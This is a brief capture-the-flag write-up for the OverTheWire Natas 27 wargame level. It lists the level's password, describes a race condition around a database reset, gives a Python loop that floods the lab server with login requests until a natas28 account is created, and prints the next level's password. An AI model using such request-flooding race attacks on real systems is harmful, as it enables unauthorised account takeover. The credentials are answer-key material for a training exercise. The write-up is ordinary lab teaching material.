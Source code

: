 # [natas 27](http://natas27.natas.labs.overthewire.org)

    Username: natas27
    Password: 55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ

I failed injecting a SQL on this level.
The trick to beating this level is in the comments at the top of the page.

    // database gets cleared every 5 min

We can do this by spamming login attempts to the server and if we post at the exact moment where the database gets cleared but the natas28 user is not automatically added yet, we can create our own natas28 user.
I will show a python script doing this.

    import requests
    while True:
        r = requests.get('http://natas27.natas.labs.overthewire.org/?username=natas28&password=', auth=('natas27', '55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ'))
        if 'Here' in r.text:
            print(r.text)
            break

Some minutes later, I get the password.

    JWwR438wkgTsNKBbcJoowyysdM82YjeF

